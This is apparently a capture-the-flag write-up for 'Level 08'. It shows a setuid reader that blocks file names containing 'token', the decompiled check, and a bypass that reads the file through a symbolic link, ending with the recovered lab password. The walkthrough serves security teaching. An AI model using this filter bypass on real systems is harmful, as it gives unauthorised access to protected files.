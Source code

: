 # Level 08

Here we have a level08 executable and a token file who cannot be read. 
```sh
$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

The executable refuse to read token
```sh
$ ./level08 
./level08 [file to read]
$ ./level08 token
You may not access 'token'
$ echo "testing" > /tmp/test
$ ./level08 /tmp/test
testing
```

If we decompile the executable, we understand that the executable refuse to read any file named "token":
```c
if (strstr(argv[1], "token") != 0) {
	printf("You may not access '%s'\n", argv[1]);
	exit(1);
}
```
But we cannot rename or copy it because of persmissions
```sh
$ mv token the_key
mv: cannot move `token' to `thekey': Permission denied
$ cp token /tmp/the_key
cp: cannot open `token' for reading: Permission denied
```

But a solution is to create a simple symbolic link
```sh
$ ln -s /home/user/level08/token /tmp/the_key
$ ./level08 /tmp/the_key
quif5eloekouj29ke0vouxean
```

Now can log as flag08 with `quif5eloekouj29ke0vouxean`.
